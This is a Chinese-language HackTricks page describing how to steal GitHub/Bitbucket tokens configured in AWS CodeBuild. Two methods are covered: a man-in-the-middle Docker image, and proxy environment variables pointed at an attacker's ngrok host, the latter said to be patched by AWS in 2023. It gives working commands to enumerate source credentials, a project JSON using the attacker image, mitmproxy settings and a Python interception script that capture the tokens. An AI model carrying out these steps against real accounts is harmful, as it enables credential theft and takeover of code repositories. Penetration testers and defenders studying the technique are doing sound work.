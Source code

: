 # AWS Codebuild - 令牌泄露

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在**HackTricks中看到您的公司广告**或**以PDF格式下载HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 恢复Github/Bitbucket配置的令牌

首先，检查是否有任何配置的源凭证您可以泄露：
```bash
aws codebuild list-source-credentials
```
### 通过 Docker 镜像

如果您发现例如 Github 的认证设置在账户中，您可以通过让 Codebuild **使用特定的 Docker 镜像** 来运行项目的构建，来**窃取**那些**访问**（**GH 令牌或 OAuth 令牌**）。

为此，您可以**创建一个新的 Codebuild 项目**或更改现有项目的**环境**来设置**Docker 镜像**。

您可以使用的 Docker 镜像是 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)。这是一个非常基础的 Docker 镜像，它将设置**环境变量 `https_proxy`**、**`http_proxy`** 和 **`SSL_CERT_FILE`**。这将允许您截取在 **`https_proxy`** 和 **`http_proxy`** 中指示的主机的大部分流量，并信任在 **`SSL_CERT_FILE`** 中指示的 SSL 证书。

1. **创建并上传您自己的 Docker MitM 镜像**
* 按照仓库的说明设置您的代理 IP 地址和 SSL 证书，并**构建 Docker 镜像**。
* **不要设置 `http_proxy`**，以免截取到元数据端点的请求。
* 您可以使用 **`ngrok`**，比如 `ngrok tcp 4444` 来设置代理到您的主机
* 一旦您构建了 Docker 镜像，**上传到公共仓库**（Dockerhub, ECR...）
2. **设置环境**

* 创建一个**新的 Codebuild 项目**或**修改**现有项目的环境。
* 设置项目使用**之前生成的 Docker 镜像**
*

```
<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
```
3. **在您的主机中设置 MitM 代理**
* 如**Github 仓库**中所示，您可以使用类似的东西：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
4. **运行构建并捕获凭证**

*   您可以在 **Authorization** 头中看到令牌：

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

这也可以通过 aws cli 来完成，类似于

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~通过 HTTP 协议~~

{% hint style="success" %}
**这个漏洞在 2023 年 2 月 20 日那周的某个时候被 AWS 修复了（我认为是在周五）。所以攻击者现在不能再滥用它了 :)**
{% endhint %}

攻击者拥有 **在 CodeBuild 上的提升权限可以泄露配置的 Github/Bitbucket 令牌**，或者如果权限是通过 OAuth 配置的，那么可以泄露用于访问代码的**临时 OAuth 令牌**。

* 攻击者可以添加环境变量 **http\_proxy** 和 **https\_proxy** 到 CodeBuild 项目中，指向他的机器（例如 `http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 然后，将 github 仓库的 URL 改为使用 HTTP 而不是 HTTPS，例如：\*\*http://\*\*github.com/carlospolop-forks/TestActions
* 接着，在代理变量（http\_proxy 和 https\_proxy）指向的端口上运行 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) 中的基本示例
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最后，点击 **Build the project**，**credentials** 将以明文（base64）形式发送到 mitm 端口：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
现在，攻击者将能够从他的机器上使用 token，列出它拥有的所有权限，并且比直接使用 CodeBuild 服务更容易（滥）用。
{% endhint %}

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>从零开始学习 AWS 黑客攻击！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 HackTricks 中看到您的 **公司广告** 或 **下载 HackTricks 的 PDF** 版本，请查看 [**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs**](https://opensea.io/collection/the-peass-family) 收藏
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上 **关注** 我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>
